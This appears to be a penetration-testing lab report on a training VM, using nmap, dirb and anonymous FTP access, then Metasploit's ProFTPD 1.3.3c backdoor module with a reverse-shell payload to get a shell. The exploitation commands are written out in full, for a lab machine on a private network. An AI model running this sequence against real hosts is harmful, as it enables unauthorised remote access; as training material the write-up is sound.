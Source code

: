 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°216

Targets : webadmin, gain access, root

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```

![picture 0](../images/ec0769a49143b2456a67d76a41b1e32446ba07f4c9906ce635596a5f8a70f2bc.png)  
 
Our target is 10.0.2.6 (the others machines is Vbox address). 

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.6
$ sudo nmap -sC -sV -Pn 10.0.2.6
```
![picture 5](../images/db95c4489a4ac9a1f4c058d4f97ac2b88ceb10822b58affbf48137f00c7fcca3.png)  

![picture 4](../images/262c0ddcab3f395461a1a49017680b320460c1689009e9435c28aeed490116e0.png)  

We can see that theses ports are open (all TCP) :

- port 21 — ProFTPD 1.3.3c
- port 22 — OpenSSH 7.2p2 Ubuntu
- port 80 — Apache httpd 2.4.18

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can try to find vulnerabilities on the web server with dirb.

```bash
$ dirb http://10.0.2.6
```
We have a lot of results, some pages are interesting.

 ![picture 6](../images/d76df4ca34f1a2f0f376a60d6dfbe5fc11602e0dcf08bec9c0dc122ac98fb78c.png)  

`http://10.0.2.6` is the main page of the web server.

We can see a secret blog, without any CSS and powered by Wordpress.

Some pages redirecting on `https://vtcsec/secret/index.php`

![picture 8](../images/0ca9e91cc6a1ac59dbe1d4bfb77fa434e74d25d98e4b8d5db63f43a03b64c516.png)  

![picture 9](../images/7fff7f5f59f120535744735fb4047566f0d9ef1bde006fc8e595ee70e418191e.png)  

![picture 10](../images/756dd6ab167655bbb303953963203e5ff0be9f5ec6459223fc27166e370afda8.png)  

But nothing can be find on this service.

#### 3.2. Port 22 - SSH

I have tried to connect with ssh with common credentials but nothing happened.

![picture 7](../images/4d68c8c67e1e34f39261f06c388214c95b0111334bca87d9ac95417c1c933a02.png)  

#### 3.3. Port 21 - FTP

The main entry point for this machine is the FTP service. We can connect with anonymous user.

```bash
$ ftp 10.0.2.6
```	
![picture 11](../images/20b810972ea56768229f9c5952485dd91fc2b671d0a3e29c948521fe90caf250.png)  

### 4. Exploit

We can now try to exploit the FTP service.

```bash
$ searchsploit proftpd 1.3.3c
```
or 
```bash
$ msfconsole
> search proftpd 1.3.3c
> use 0
```

![picture 17](../images/fbdd9beb7be41c860c916fb4ec6a0f2bb48485e57df4c47ae89d3dcd6e923613.png)  
  

We can see that there is a module for this version of ProFTPD to access to a backdoor.

```bash	
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > options
```

![picture 18](../images/493b8545a28d44f32394d55be5f20ff5dc4e2355ad57a418fee0d62a07900c65.png)  

We need to set the options (only required) of the exploit.
The RPORT is already set (21).

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 10.0.2.6
```

![picture 19](../images/b96b94681af01e4b68fb35e2f89d44203c027ad4a54942b4aad5f51c9a63c5eb.png)  

Now, the payload need to be set. We can use a reverse shell after searching with the command :

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
```
![picture 20](../images/b9c7ded38eb8b8f6503bd767d4fa467a5c5dbebe7906c4a356a6ffe6a7e7648b.png)  

We can use the payload `cmd/unix/reverse` and set the LHOST.

```bash
set payload cmd/unix/reverse
set LHOST 10.0.2.15
```
Now we can launch the exploit.

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

![picture 22](../images/1680addc9b504df496e4c56ecb30eb7eb0d06bfc99df9e671d1282a9bf37e94a.png)  


We now have a shell-like on the machine.
We can prove it with the command `whoami`.

Our target is reached.